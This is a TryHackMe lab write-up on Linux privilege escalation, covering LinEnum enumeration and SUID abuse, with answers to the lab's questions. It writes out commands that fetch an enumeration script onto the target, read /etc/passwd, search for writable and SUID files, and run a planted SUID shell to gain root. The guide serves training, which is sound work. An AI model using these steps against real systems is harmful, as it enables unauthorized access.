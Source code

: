 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks **1**, **2** and **3** don't need explanation.

## Task 4 : Enumeration

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

* * *
<p class="answer">Answer : there are 8 user[x] in the system.</p>
* * *
For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shels there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

* * *
<p class="answer">Answer : There are 4 shells in the system</p>
* * *
* 
We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

* * *
<p class="answer">Answer : The autoscript.sh file is located in the "/home/user4/Desktop" directory</p>
* * *

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5 : Abusing SUID/SGID Files

Checking for files with the `SUID/SGID` bit set is the go-to when first getting a shell on a machine if what we want is to escalata privileges.

If the `SUID` bit is set on a file, it means that the file will be executed with the same permissions as the owner of the file.
If the `SGID` bit is set on a file, the file will be executed with the permissions of the group that owns the file.
**Important : SUID and SGID have different behaviour when they are set in directories**

In order to find files with the SUID bit set, we can have a look at our `LinEnum` scan, or we can search them manually :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/find%20suid%20files5.png" class="border" />

```
find / -perm -u=s -type f 2>/dev/null
```
>Again, we are using `find` with its `-perm` option, this time we specify that we want any of the permission bits set (`-u=s`) and we use `-type f` so that it only returns files.

It seems that there is an uncommon file with the SUID bit set : 

* * *
<p class="answer">Answer : /home/user3/shell</p>
* * *

Due to `shell` having the SUID set, we can execute it and gain superuser privileges on the machine :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/root5.png" class="border" />

```
ls -l /home/user3/shell
./shell
```
>To check if a file has the `SUID/SGID` bit set, we look at its permissions.
>
>If they are : `rws-rwx-rwx`, the `SUID` bit is set.
>
>If they are : `rwx-rws-rwx`, the `SGID` bit is set.
>
>**Notice that they are marked with an `s`**

## Task 6 : Exploitin Writeable /etc/passwd
<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 text-shadow : 0px 0px 4px #ADFF2F }
</style>
